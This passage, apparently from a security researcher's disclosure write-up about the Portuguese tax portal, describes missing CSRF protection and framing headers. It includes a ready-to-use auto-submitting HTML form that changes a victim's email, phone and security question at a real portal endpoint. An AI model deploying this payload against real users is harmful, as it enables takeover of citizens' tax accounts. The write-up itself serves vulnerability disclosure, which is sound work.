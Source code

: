 With XSS out of the way, let's hop into another X-vulnerability - [Cross-Site Request Forgery (XSRF)](https://developer.mozilla.org/en-US/docs/Glossary/CSRF).

Since not a single one of the endpoints has XSRF protection, it is **trivial to take over an account if the user is both logged in at the portal and clicks a malicious link**.

One issue with XSRF attacks is that you may not be able to fully identify which account you've successfully attacked. This is not the case here as the tax identification number (NIF) is delivered along with the account data change message.

{{ image(
    path="images/finance-tax-portal-1/xsrf-email-message.png",
    alt="Email received by the attacker with the victim's full name and NIF.",
    caption_no="6",
    caption="Email received by the attacker with the victim's full name and NIF."
) }}

Some information that can be modified through the personal area:

* `Email`
* `Phone Number`
* `Security Question`

{{ image(
    path="images/finance-tax-portal-1/personal-area.png",
    alt="Personal area page.",
    caption_no="7",
    caption="Personal area page."
) }}

To make matters worse, the page doesn't have the [X-Frame-Options (XFO)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) header or the equivalent CSP directive [frame-ancestors](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors), meaning the **victim would be completely oblivious to the attack**.

In order to change either of these, an attacker would only need to use a short HTML snippet like:

``` html
<html>
  <form name="exploit" action="https://www.portaldasfinancas.gov.pt/pt/alterarDadosPessoais.action" method="POST">
    <input name="novoNumero" value="true">
    <input name="novoEmail" value="true">
    <input name="pergunta" value="1">
    <input name="resposta" value="attacker">
    <input name="email" value="attacker@example.com">
    <input name="telefone" value="901234567">
    <input name="confirmarBtn" type="submit" value="Confirmar">
  </form>
  <script>
    document.exploit.submit();
  </script>
</html>
```

After requesting the changes, it would also be necessary to send one additional request to confirm the new email and another for the phone number. These endpoints are also vulnerable and could be exploited the same way:
